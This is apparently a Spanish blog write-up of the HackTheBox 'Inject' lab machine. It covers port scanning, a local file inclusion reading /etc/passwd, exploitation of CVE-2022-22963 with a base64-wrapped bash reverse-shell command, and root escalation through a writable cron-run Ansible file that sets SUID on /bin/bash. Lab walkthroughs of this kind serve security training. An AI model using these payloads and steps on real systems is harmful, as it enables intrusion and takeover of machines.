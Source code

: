 ```yaml
---
layout: post
tittle: HTB Inject Writeup
author: Al3xt0r
date: 2023-06-16
tags: [CTF, HTB, Writeup, LFI]
---
```

{:.lead}

![](/assets/img/HTB_Injection/Inject.png)

## En esta maquina veremos:
* Scan de puertos
* LFI - Local File Inclusion
* Explotando funciones CRON

### Primer paso: PORT SCANNING

Vamos a usar la herramienta nmap, ya sabemos que hay muchas combinaciones, pero me gusta usar esta por la rapidez:

```bash
sudo nmap -sS -p- 65535 --open --min-rate 5000 -vvv -n -Pn <Ip de la Maquina> -oG <Nombre del archivo que contendra la informacion>
```
Aunque tambien podemos usar:
```bash
sudo nmap -T5 <IP Maquina>
```
A estos puertos le pasaremos un scan de **reconocimiento**, pero esta vez del servicio y versiones que corren tras la pagina.
```bash
nmap -sCV -p<Puertos>
```
Como sea, obtendemos lo siguiente:
![](/assets/img/HTB_Injection/Injection-PORTS.jpeg)

Podemos ver cosas interesantes:
* El puerto 22 (Perteneciente al SSH) esta abierto.
* No se emplea un puerto 80 o un 443 para mostrar la pagina, sino, un servicio web-proxy en el puerto **8080**

Si vamos a esa puerto, podremos ver una interfaz de subida de archivos.
![](/assets/img/HTB_Injection/Injection-UI.jpeg)

Si es que subimos un archivo **test**, por ejemplo, nos dejara buscar por un paramentro:

```http
http://<IP>:8080/show_image?img=
```
Entonces, vamos a interceptar la peticion con la herramienta **BURPSUITE**, para hacer test a ese parametro.

En este caso usaremos un LFI clasico, "../../../etc/passwd", esto para listar posibles ususarios dentro del sistema:

![](/assets/img/HTB_Injection/Injection-Burp1.jpeg)

Vemos que existe un usuario **frank** y otro usuario **phil**, pero realmente lo que ahora queremos hallar es la version del framework que usa esta aplicacion, asi que con **Burpsuite**, nos ponemos a listar los directorios, hasta toparnos con:

![](/assets/img/HTB_Injection/Injection-Burp2.jpeg)

Vemos cosas interesantes:
* Un Spring Framework
* La version usada es muy antigua (2.6.5)
Si buscamos nos toparemos con un CVE, el **CVE-2022-22963**

### CVE-2022-22963
Puedes usar la [herramienta que yo use](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit).

Pero si vamos a fondo, este **CVE-2022-22963**, explicado de forma rapida... Emplea un fallo de implementacion, atacando una ruta en especifico **"/functionRouter"**, dentro del servicio. 
* Le carga a la cabecera: 'spring.cloud.function.routing-expression', nuestro payload (En este caso una reverse shell), y la crea en el directorio temporal de la maquina.
Y bueno el comando que le carga en cuestion es el siguiente:
```bash
bash -c {echo,' + ((str(base64.b64encode(command.encode('utf-8')))).strip('b')).strip("'") + '}|{base64,-d}|{bash,-i}
```
Donde **command** contiene nuestra reverse shell.

### Continuando:

Podemos ver que ha funcionado:
![](/assets/img/HTB_Injection/Injection-CVE.jpeg)![](/assets/img/HTB_Injection/Injection-Burp3.jpeg)

Por lo que ahora queda ponernos en escucha con la herramienta **netcat** o si queremos ahorrarnos tratar la tty, con **pwncat-cs**.
![](/assets/img/HTB_Injection/Injection-RS.jpeg)
Si vamos investigando dentro del directorio principal del usuario **frank**, vamos a toparnos con un directorio ".m2/" que contendra un archivo interesante: "settings.xml", este contendra la password del usuario **phil** (Que de igual forma podremos listar con **burpsuite**):
![](/assets/img/HTB_Injection/InjectionRS2.jpeg)

Como ya tenemos usuario y password de **phil**, simplemente ingresamos a su cuenta y solo nos quedaria usar una herramienta de reconocimiento para ver lo que sucede detras del sistema:

Podemos usar perfectamente:
```bash
ps -aux
```
O por otro lado, servirnos de la herramienta [**pspy64**](https://github.com/DominicBreuker/pspy)

![](/assets/img/HTB_Injection/Injection-PSPY.jpeg)

Y nos vamos a topar con algo interesante, hay un proceso que parece ejecutar una tarea cron, que apunta a un directorio que contiene formatos .yml

![](/assets/img/HTB_Injection/Injection-CRON.jpeg)

Asi que si vamos a es ruta, vamos a poder ver que tenemos permisos de escritura, por lo que le introducimos nuestra escalada de privilegios de la siguiente forma:

```yaml
- hosts: localhost
  tasks:
  - name: Privilege Escalation
    command: chmod u+s /bin/bash
  become: true
```
Como podemos ver, esto apunta contra el propio localhost de la maquina, y ejecuta el comando a nivel de sistema que le da permiso de ser ejecutado por el user+superuser al binario "/bin/bash".

![](/assets/img/HTB_Injection/InjectionYML.jpeg)

Acto seguido tenemos 2 opciones, esperar a la tarea **CRON**, o forzarla, si la queremos forzar, solo copiamos el comando, pero ejecutamos nuesto binario:
![](/assets/img/HTB_Injection/Injection-100.jpeg)
Como podemos ver, una vez que se ejecuta el permiso del binario cambia a **"-rwsr-sr-x"**, por lo que para escalar privilegios solo nos queda ejecutar un:
```bash
bash -p
```
## FIN
